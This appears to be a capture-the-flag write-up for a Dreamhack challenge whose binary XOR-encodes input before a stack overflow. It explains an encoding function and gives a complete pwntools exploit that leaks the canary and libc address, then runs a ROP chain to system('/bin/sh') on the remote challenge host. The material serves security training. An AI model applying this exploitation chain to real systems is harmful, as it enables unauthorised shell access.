

The problem can be seen here.
The decompilation of the program is as below.
undefined8 main(void)
{
ssize_t inp_len;
char *exit?;
long in_FS_OFFSET;
int i;
byte buf [24];
long canary;
canary = *(long *)(in_FS_OFFSET + 0x28);
setvbuf(stdin,(char *)0x0,2,0);
setvbuf(stdout,(char *)0x0,2,0);
setvbuf(stderr,(char *)0x0,2,0);
do {
printf("Input: ");
inp_len = read(0,buf,0x100);
for (i = 1; i < (int)inp_len; i = i + 1) {
buf[i + -1] = buf[i] ^ buf[i + -1];
}
printf("You entered: %s\n",buf);
exit? = strtok((char *)buf,"exit");
/* if buf has 'exit' in it, escape loop */
} while (exit? != (char *)0x0);
if (canary == *(long *)(in_FS_OFFSET + 0x28)) {
return 0;
}
/* WARNING: Subroutine does not return */
__stack_chk_fail();
}
As you can see, the program performs XOR to contiguous bytes that the user inputted so we need a function which given a string of bytes, returns another string of bytes which, after undergoing the contiguous XORs, will result in the original string of bytes given as input.
The idea for such function comes from this property of XOR: A ^ B ^ B = A. If we extrapolate this to an array of bytes, the array [(A^B^C^...^Z), (B^C^D^...^Z), (C^D^...^Z), ..., (Z)] will become [A, B, C, D, ..., Z] after it has undergone the consecutive XOR encryption process. So our goal is to create a function which generates [(A^B^C^...^Z), (B^C^D^...^Z), (C^D^...^Z), ..., (Z)] when [A, B, C, D, ..., Z] is given. The implementation of such function in python is as below.
def xor_slice (arr:bytes, start:int, end:int):
col = arr[start]
for i in range(start+1, end):
col = col ^ arr[i]
return col
def xor_encode (arr:bytes) -> bytes:
res: bytes = b""
for i in range(arr.__len__()):
res += p8(xor_slice(arr, i, arr.__len__()))
return res
def xor_decode (arr:bytes) -> bytes:
res: bytes = b""
for i in range(1, arr.__len__()):
res += p8(arr[i-1] ^ arr[i])
return res
The function xor_encode encodes the array of bytes so that it can be decoded by the program. xor_decode was added
to check whether the xor_encode functioned properly.
The stack of main is as below.
Checking for ROP gadgets of the program resulted in absolutely nothing, so we need to use the ROP gadgets present in libc.

Using pwndbg, we can see that the return address of main has an offset of 0x29d90 from the base of libc.

So in the exploit, we first leak the canary and return address of main, and then use that to get the
base of libc and the necessary ROP gadgets. And finally, we use the ROP gadgets to call system("/bin/sh").
The exploit code is as below.
#!/usr/bin/python3
from pwn import *
def xor_slice (arr:bytes, start:int, end:int):
col = arr[start]
for i in range(start+1, end):
col = col ^ arr[i]
return col
def xor_encode (arr:bytes) -> bytes:
res: bytes = b""
for i in range(arr.__len__()):
res += p8(xor_slice(arr, i, arr.__len__()))
return res
def xor_decode (arr:bytes) -> bytes:
res: bytes = b""
for i in range(1, arr.__len__()):
res += p8(arr[i-1] ^ arr[i])
return res
def ex():
test = bytearray("AAAAAAA", 'ascii')
print(xor_encode(test))
print(xor_decode(xor_encode(test)))
#context.log_level = "debug"
#p = process("./prob")
#p = remote("localhost", 8080)
p = remote("host3.dreamhack.games", 9323)
libc = ELF("./libc.so.6")
e = ELF("./prob")
rop = ROP("./libc.so.6")
print(rop.rdi)
print(rop.rsi)
print(rop.rdx)
print(rop.ret)
p.sendafter(b"Input: ", xor_encode(b"A"*24 + b"B"))
canary = b"\x00" + p.recvline().split(b": ")[1][25:32]
p.sendafter(b"Input: ", xor_encode(b"A"*24 + b"C"*8 + b"B"*8))
main_ret_addr = u64(p.recvline().split(b": ")[1][40:46] + b"\x00\x00")
libc_base = main_ret_addr - 0x29d90
print(f"{canary=}")
print(f"{main_ret_addr= :x}")
print(f"{libc_base= :x}")
pop_rdi = libc_base + 0x2a3e5
system_addr = libc_base + libc.symbols["system"]
ret = libc_base + 0x29cd6
binsh = libc_base + list(libc.search(b"/bin/sh"))[0]
p.sendafter(b"Input: ",
xor_encode(b"\x00"*24 + canary + b"B"*8
+ p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system_addr)))
p.interactive()
if __name__ == "__main__": ex()